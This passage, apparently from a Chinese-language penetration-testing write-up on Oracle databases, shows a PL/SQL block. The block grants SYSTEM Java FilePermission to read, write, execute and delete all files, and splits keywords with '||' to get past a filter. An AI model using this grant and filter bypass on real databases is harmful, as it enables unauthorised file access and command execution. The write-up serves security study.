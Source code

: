 [![](assets/1710899076-f5746e4981e3e4df5e929d62f184871a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101412-10341a56-d5df-1.png)

第二次报错是因为没有 FilePermission，我们给他加上即可。这里绕过关键字用 `||` 拼贴就好

```plain
begin
dbms_java.grant_permission('SYSTEM', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'read,write,e'||'xecute,del'||'ete');
end;
```

[![](assets/1710899076-97af789d785e69f7bc781df0b0ee2861.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101418-13f20630-d5df-1.png)
